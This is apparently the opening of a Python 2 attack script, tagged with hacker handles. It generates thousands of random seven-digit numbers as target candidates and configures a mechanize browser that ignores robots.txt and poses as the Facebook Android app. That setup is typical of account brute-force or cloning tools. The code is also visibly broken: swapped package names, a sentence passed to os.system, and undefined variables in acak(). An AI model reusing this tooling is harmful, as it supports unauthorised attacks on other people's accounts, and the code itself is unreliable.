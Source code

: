 # kill# Thuglife# Somibro# Gamz#!/usr/bin/python2
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python2 boss')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def keluar():
	print 'Thanks.'
	os.sys.exit()

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)
